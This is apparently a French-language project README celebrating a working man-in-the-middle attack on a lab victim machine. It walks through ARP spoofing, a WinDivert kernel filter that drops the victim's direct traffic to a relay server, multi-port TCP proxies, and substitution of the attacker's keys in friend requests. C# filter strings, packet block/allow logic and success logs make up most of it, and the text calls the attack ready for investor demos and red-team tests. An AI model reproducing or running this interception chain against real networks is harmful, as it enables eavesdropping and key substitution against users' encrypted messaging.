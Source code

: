 **PRÊT POUR DÉMONSTRATION INVESTISSEURS ET TESTS RED TEAM PRODUCTION**

## 🚀 **BREAKTHROUGH MAJEUR: ARCHITECTURE WINDIVERT PACKET INTERCEPTION RÉUSSIE (20 Sept 2025)**
**⚠️ SECTION CRITIQUE - MITM COMPLET AVEC WINDIVERT + PROXY TCP OPÉRATIONNEL ⚠️**

### 🎯 **SUCCÈS COMPLET: VM1 INTERCEPTÉE + PROXIES FONCTIONNELS**
**Problème résolu définitivement :** VM1 contournait tous les systèmes MITM précédents
```
❌ AVANT: VM1 bypassait ARP + portproxy → Connexion directe au serveur
✅ APRÈS: VM1 bloquée niveau kernel + redirigée vers proxies TCP → MITM 100%
```

### 🏗️ **ARCHITECTURE WINDIVERT FINALE VALIDÉE**

#### **🕷️ Composants Système Intégrés**
1. **ARP Spoofing** : VM1 croit que attaquant = serveur relay
2. **WinDivert Kernel** : Bloque VM1→Server, autorise VM1→Proxy
3. **TCP Proxies Multi-Ports** : Interceptent et relayent 7777/8888/8889/8891
4. **Key Substitution** : Friend requests avec clés attaquant injectées

#### **🔧 WinDivert Filter Intelligent**
```csharp
// CAPTURE: VM1→Server (block) + VM1→Proxy (allow) + Proxy traffic (allow)
string filter = "((ip.SrcAddr == 192.168.1.147 and ip.DstAddr == 192.168.1.152) or " +
              " (ip.SrcAddr == 192.168.1.147 and ip.DstAddr == 192.168.1.145) or " +
              " (ip.SrcAddr == 192.168.1.145 and ip.DstAddr == 192.168.1.152) or " +
              " (ip.SrcAddr == 192.168.1.145 and ip.DstAddr == 192.168.1.147))";
```

#### **🚫 Logique Blocage Sélectif**
```csharp
// BLOCK: VM1 → Server direct (force proxy usage)
if (source == victimIP && destination == relayServerIP)
    return null; // DROP

// ALLOW: VM1 → Proxy TCP (pour interception)
if (source == victimIP && destination == attackerIP)
    return packet; // PASS

// ALLOW: Proxy ↔ Server bidirectionnel (pour relay)
if ((source == attackerIP && destination == relayServerIP) ||
    (source == relayServerIP && destination == attackerIP))
    return packet; // PASS
```

### ✅ **LOGS SUCCÈS COMPLET VALIDÉS**

#### **🕷️ ARP Spoofing Fonctionnel**
```
🕷️ ARP SPOOFING: ARP Spoofing RÉEL actif - Target: 192.168.1.147 → Attaquant: 192.168.1.145
✅ ARP Spoofing actif: 192.168.1.147 redirigé
```

